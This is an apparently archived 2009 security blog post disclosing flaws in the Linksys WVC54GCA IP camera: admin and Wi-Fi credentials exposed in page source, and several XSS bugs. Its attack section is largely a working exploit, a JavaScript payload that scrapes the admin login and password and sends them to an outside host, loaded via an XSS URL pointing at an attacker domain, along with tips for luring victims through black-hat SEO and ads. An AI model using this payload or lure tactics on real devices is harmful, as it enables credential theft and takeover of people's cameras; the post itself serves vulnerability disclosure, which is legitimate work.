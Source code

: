 ```yaml
---
title: Hacking Linksys IP Cameras (pt 4)
author: adrian-pastor
date: Sat, 25 Apr 2009 03:28:38 GMT
template: post.jade
category: fucked
---
```


_This article is a continuation of the following GNUCITIZEN articles, which include an introduction to the topic and also some initial observations: [Hacking Linksys IP Cameras (pt 1)](/blog/hacking-linksys-ip-cameras-pt-1/), [Hacking Linksys IP Cameras (pt 2)](/blog/hacking-linksys-ip-cameras-pt-2/), [Hacking Linksys IP Cameras (pt 3)](/blog/hacking-linksys-ip-cameras-pt-3/)._

There are two types of vulnerabilities I will be releasing today: disclosure of credentials in client-side source code and multiple XSS.

### Disclosure of Credentials in Client-side Source Code

As a consumer of embedded products, I find highly frustrating to see how many devices' web interfaces return passwords back to the browser within HTML source code. I've also seen similar problems in some corporate appliances, but is not such as common problem within the enterprise realm.

Visiting the change admin password page:

    /adm/file.cgi?next_file=pass_wd.htm

    Causes the current admin password to be returned (just view the source code with your browser):

    <input type="password" size="8" maxlength="64" name="admpw" value="**C4mP4ssw0rd**" onKeyDown="chkPsize(this.value.length,64,msg_bigpw)"></pre>`

    Visiting the "Wireless Security Page":

    /adm/file.cgi?next_file=Wsecurity.htm

    Causes the Wi-Fi WEP/WPA/WPA2 encryption key to be returned to the browser:

    <input type="text" name="psk" size="24" maxlength="63" value="**mywirelesskey**">

    Obviously this is bad news, as it means that every time the aforementioned pages are visited, credentials travel the clear (the WVC54GCA IP camera doesn't have SSL/TLS support).

    Now, I know there are people out there who might find these types of issues not worth fixing. The following is the thinking behind their reasoning.

    In the case of the admin password disclosure, some people would argue that this issue wouldn't make a difference security-wise, since the camera uses [basic authentication](http://en.wikipedia.org/wiki/Basic_access_authentication) which transmits credentials in the clear (base64 encoding) anyway.

    In the case of the wireless encryption key disclosure, some individuals point out that if you can sniff the Wi-Fi encryption key, it means that either 1) you're already part of the wireless network which means you must already know the key, or 2) you are part of the network via an ethernet connection which means that you don't need the wireless key at all.

    So why fix these issues then? Well, think of client-side attacks for instance. If you keep reading I'll show you how you can (for instance) use XSS to steal the admin password from the aforementioned page. If the admin password wasn't returned by the web interface, this attack would not be possible, despite basic authentication being used by the camera.

    ### Several XSS bugs

    Yes, XSS is the roach of the Internet, it's everywhere and we can't seem to be able to get rid of it! Of course, Linksys IP cameras are no exception. Finding XSS vulns requires virtually no skills (unless you are trying to bypass a strict filter logic). Also, hunting for XSS vulns can be kind of boring. As pdp usually says, "it's not finding XSS bugs which is interesting, but what you can do with it". I couldn't agree more.

    Boring PoCs:

    /main.cgi?next_file=%3Cimg%20src%3dx%20onerror%3dalert(1)%3E
    /img/main.cgi?next_file=%3Cimg%20src%3dx%20onerror%3dalert(1)%3E
    /adm/file.cgi?next_file=%3Cscript%3Ealert(1)%3C/script%3E
    /adm/file.cgi?todo=xss&this_file=%3cscript%3ealert(1)%3c/script%3e</pre>`

    XSS bug #1 works regardless of the authentication state of the victim user. The rest do require the victim user to be logged-in for the injected JS to run within the context of the camera's domain sandbox.

    As you can see in the first two XSS vulns, we use `img` tags, rather then `script` tags, due to closing `script` tags being filtered. Once again, the developers have chosen to perform filtering against some parameters, albeit poor filtering.

    #### Admin Password theft XSS PoC

    The following is the PoC exploit which steals the admin user's password.

    // **evil.js** : malicious JS file, typically located on attacker's site
    // payload description: steals Linksys WVC54GCA admin password via XSS
    // tested on FF3 and IE7
    // based on code from developer.apple.com
    function loadXMLDoc(url) {
    	req = false;
        	// branch for native XMLHttpRequest object
        	if(window.XMLHttpRequest && !(window.ActiveXObject)) {
        		try {	
    			req = new XMLHttpRequest();
            	} 
    		catch(e) {
    			req = false;
            	}
        	} 
        	// branch for IE/Windows ActiveX version	
    	else if(window.ActiveXObject) {
           		try { 
            		req = new ActiveXObject("Msxml2.XMLHTTP");
          		} 
    		catch(e)  {
            		try {
              			req = new ActiveXObject("Microsoft.XMLHTTP");
            		} 
    			catch(e) {
              			req = false;
            		}
    		}
        	}
    	if(req) {
    		req.onreadystatechange = processReqChange;
    		req.open("GET", url, true);
    		req.send("");
    	}
    }
    // end of loadXMLDoc(url)

    function processReqChange() {
       	// only if req shows "loaded"
        	if (req.readyState == 4) {
            	// only if "OK"
            	if (req.status == 200) { 
    			// dirty credentials-scraping code
    			var bits=req.responseText.split(/\"/);	
    			var gems="";
    			for (i=0;i<bits.length;++i) { 
                                    if(bits[i]=="adm" && bits[i+1]==" value=") {      
                                   		gems+="login="; 
    					gems+=bits[i+2];
                                    }
                                    if(bits[i]=="admpw" && bits[i+1]==" value=") {      
                                           	gems+='&password='; 
    					gems+=bits[i+2];    
                                    }
    			}
    			alert(gems); // this line is for demo purposes only and would be removed in a real attack
    			c=new Image();
    			c.src='http://google.com/x.php?'+gems; // URL should point to data-theft script on attacker's site
            	} 
        	}
    }

    var url="/adm/file.cgi?next_file=pass_wd.htm";
    loadXMLDoc(url);

    http://192.168.1.115/adm/file.cgi?next_file=%3cscript%20src=http://evil.foo/**evil.js**%3e%3c/script%3e

If you capture the traffic while testing the exploit against yourself you will see the admin login and password being sent to google.com:

<div class="screen">![Screenshot eth1 Capturing Wireshark 1](http://www.gnucitizen.org/static/blog/2009/04/screenshot-eth1-capturing-wireshark1.png "Screenshot eth1 Capturing Wireshark 1")</div>

#### Attack Requirements

In order for this exploit to work, the camera admin user must be logged in when the attack occurs. This means that a bit of social engineering is required. For instance, the attacker could setup a forum to help users of the WVC54GCA camera by providing tips, FAQs, etc. If the attacker is serious he could use [black hat SEO](http://www.timesonline.co.uk/tol/driving/article754974.ece) and ad campaigns such as Google AdWords to attract Linksys camera users to visit the site containing the malicious XSS URLs. You get the idea!

### Testing Info

All Disclosure of Credentials and XSS vulnerabilities successfully tested on:

* WVC54GCA
* Firmware V1.00R22 and V1.00R24 (latest available as on 23rd April 2009)
